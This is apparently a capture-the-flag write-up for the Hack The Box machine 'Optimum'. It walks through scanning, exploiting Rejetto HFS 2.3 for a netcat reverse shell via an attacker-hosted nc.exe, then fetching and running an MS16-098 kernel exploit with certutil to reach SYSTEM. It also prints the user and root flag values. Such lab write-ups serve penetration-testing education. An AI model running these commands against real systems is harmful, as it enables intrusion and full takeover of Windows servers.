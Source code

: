 ![Optimum.PNG](/assets/Machines/Easy/Optimum/Optimum.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.8
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.8
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
```

3. Visit web page

![web.PNG](/assets/Machines/Easy/Optimum/web.PNG)

4. Search exploit with leak information `HttpFileServer 2.3`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Optimum]
└─| searchsploit httpfileserver 2.3
```

**Output**
```bash
----------------------------------------------------------------------------------------------------- 
 Exploit Title                                                           |  Path
----------------------------------------------------------------------------------------------------- 
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution(2)       | windows/remote/39161.py
-----------------------------------------------------------------------------------------------------
```

### **searchsploit basic use**
| Command | Meaning |
|:-------:|:-------:|
| `searchsploit <To search>` | Search any exploit with a previous description |
| `searchsploit -m <Path Exploit>` | Move the exploit choosed in current directory |
| `searchsploit -x <Path Exploit>` | Examine the exploit choosed (View content) |


5. You need change this lines of code in previous exploit **.py**
```python
ip_addr = "<Tun0 IP>" #local IP address
local_port = "443" #Port choosen by you
```

Second, analyze script and you will find this comment
```python
#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).
#You may need to run it multiple times for success!
```

* We need to create a server and provide **nc.exe** program to execute a reverse shell

* First, download [nc.exe](https://eternallybored.org/misc/netcat/).
* Second, create a http server with python in same folder of **nc.exe**

6. Execute exploit multiple times (Remember listen on port chosen with nc)

* `nc listen`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Optimum]
└─| rlwrap nc -lvnp 443
listening on [any] 443 ...
```
---
* `Http Server with python`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Optimum]
└─| python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
---
* `Run script`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Optimum]
└─| python2 39161.py <Machine's Ip> <Port> 
```

**Output**
```cmd
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

7. Show **user flag**

```cmd
C:\Users\kostas\Desktop>type user.txt
type user.txt
799da248bef4fc89a6970bfb1a679920
```


---
---
---
### **Privileges Escalation** 💀

1. In this case we use `Windows Exploit Suggester`, download for this [repository](https://github.com/gr33nm0nk2802/Windows-Exploit-Suggester)

* First, you run this
```bash
┌──(root㉿kali)-[/home/…/Machines/Easy/Optimum/Windows-Exploit-Suggester-python3]
└─| ./windows-exploit-suggester.py --update 
```

* Then, list sysinfo in target machine

```cmd
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                OPTIMUM
OS Name:                  Microsoft Windows Server 2012 R2 Standard
OS Version:               6.3.9600 N/A Build 9600
OS Manufacturer:          Microsoft Corporation
OS Configuration:         Standalone Server
OS Build Type:            Multiprocessor Free
Registered Owner:         Windows User
Registered Organization:   
...
```
* Copy this information and put into a file in our machine.

* Next, when first command are finish use **.xlsx** file to discover ways to escalate privileges

```bash
┌──(root㉿kali)-[/home/…/Machines/Easy/Optimum/Windows-Exploit-Suggester-python3]
└─| ./windows-exploit-suggester.py --database 2022-12-30-mssb.xlsx --systeminfo systeminfo.txt
```

**Output**
```bash
...
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*] https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)                 
[*] 
...
```
* In output you will fins many ways to escalate privileges, try with previous way.


2. Visit https://www.exploit-db.com/exploits/41020/

![search.PNG](/assets/Machines/Easy/Optimum/search.PNG)

* Download binary from this link

3. Download binary in target machine, to do this you need to create a http server in same folder of previous binary

* `Http Server with python`
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Optimum]
└─| python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* `Download binary in target machine`
```bash
C:\Windows\Temp>certutil.exe -f -urlcache -split http://<Tun0 IP>/exploit.exe
```

4. Now, run **.exe**
```cmd
C:\Users\kostas\Desktop>.\exploit.exe
.\exploit.exe
```


**Output**
```cmd
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

* We are in the group authority (Administrator)

5. Show **root flag**
```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
4fc07a2f0d9ae4877c6bfc0aa2fd64e4
```